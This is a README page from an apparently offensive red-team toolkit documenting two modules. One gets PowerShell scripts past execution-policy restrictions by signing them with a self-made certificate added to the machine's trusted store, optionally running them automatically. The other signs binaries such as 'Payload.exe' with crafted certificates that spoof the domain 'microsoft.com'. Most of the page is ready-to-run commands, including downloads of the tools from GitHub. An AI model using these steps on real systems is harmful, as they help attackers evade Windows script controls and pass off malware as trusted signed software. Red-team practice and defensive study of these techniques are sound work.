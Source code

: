 ## Module Name
   <b><i>PSscriptSigning.bat</i></b>

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|PSscriptSigning|Signs one PS1 script ( **certlm.msc - certificate** ) + Execute it?<br />This allow us to execute our PS1 cmdlet even if set-executionpolicy<br />its set to only run signed cmdlets [( AllSigned, RemoteSigned )](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-7.2)|Administrator|[PSscriptSigning.bat](https://github.com/r00t-3xp10it/redpill/blob/main/bypass/PSscriptSigning.bat)<br />[DeletePSscriptSignning.bat](https://github.com/r00t-3xp10it/redpill/blob/main/bypass/DeletePSscriptSignning.bat)<br />Dependencies: LanManServer|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bypass/PSscriptSigning.bat" -OutFile "PSscriptSigning.bat"
```

<br />

**prerequesites checks:**
```powershell
Get-ExecutionPolicy
Get-Service -Name LanManServer
```

```powershell
# Execute the next cmdline to: auto-execute the PS1 after PSscriptSigning.bat have sign it ?
[optional] Add-Content -Path "PSscriptSigning.bat" -Value "`npowershell -W 1 -File %PSsignPath%" -Force

# Execute the batch script that signs our PS1 cmdlet
.\PSscriptSigning.bat
```


**check if (Subject: My_Code_Signing_Certificate) certificate exists:**
```powershell
[manual] Certlm.msc
[auto] $List = @("Root","My");ForEach($Item in $List){Get-ChildItem Cert:\LocalMachine\$Item|Where-Object {$_.Issuer -match 'My_Code_Signing_Certificate'}}
```

<br /><br />

**Delete certificate from store**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bypass/DeletePSscriptSignning.bat" -OutFile "DeletePSscriptSignning.bat"
```

```powershell
.\DeletePSscriptSignning.bat
```

**check if (Subject: My_Code_Signing_Certificate) certificate was deleted:**
```powershell
[manual] Certlm.msc
[auto] Get-ChildItem Cert:\LocalMachine\Root | Where-Object {$_.Issuer -match 'My_Code_Signing_Certificate'}
```

<br />

## Restrictions
```
The PSscriptSigning.bat batch script can only be used to sign one cmdlet at a time...
Because its uses 'SsaRedTeam' as certificate FriendlyName, but... if we execute the
DeletePSscriptSignning.bat script than PSscriptSigning.bat can be invoked again to sign a new cmdlet ..

```

Article: https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/working-with-certificates.md

<br /><br />

## Module Name
   <b><i>Invoke-LazySign.ps1</i></b> - AddaptedFrom: @JeanMaes {Invoke-LazySign}

|Function Name|Description|Privileges|Notes|
|---|---|---|---|
|Invoke-LazySign|Sign a Windows binary with a self-signed certificate|User Land \| Administrator|Dependencies: PSVersion.Major 3+<br />[Screenshot](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/CertSign_PS1/invoke-LazySign.png)|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/CertSign_PS1/Invoke-LazySign.ps1" -OutFile "Invoke-LazySign.ps1"
```

<br />

**prerequesites checks:**
```powershell
($PSversionTable).PSVersion.Major
```


```powershell
Get-Help .\Invoke-LazySign.ps1 -full

#Query for ALL certificates in 'Cert:\CurrentUser\My | Cert:\LocalMachine\Root' Store
.\Invoke-LazySign.ps1 -Action "query" -Subject "[a-z 0-9]"

#Query for ALL 'LazySign' certs in 'Cert:\CurrentUser\My | Cert:\LocalMachine\Root' Store
.\Invoke-LazySign.ps1 -Action "query" -Subject "LazySign"

#Sign binary (Payload.exe) with crafted certificate (Subject: LazySign-4zrH Domain: microsoft.com)
.\Invoke-LazySign.ps1 -Subject "LazySign" -Target "$pwd\Payload.exe" -Domain "microsoft.com"

#Sign binary (Payload.exe) with crafted certificate (Subject: LazySign-4zrH Domain: microsoft.com password: Passw0rd!)
.\Invoke-LazySign.ps1 -Action 'sign' -Subject "LazySign" -Target "Payload.exe" -Domain "microsoft.com" -Password "Passw0rd!"
```

**Notes:**
```powershell
[Administrator] privileges exports the cert from 'Cert:\CurrentUser\My' to 'Cert:\LocalMachine\Root'
This cmdlet does not delete fake certificates from Windows Store because the certificates created by
this cmdlet will auto-delete itself in the sellected time stamp (by using -NotAfter 'int' paramater) 
```

Article: https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/working-with-certificates.md

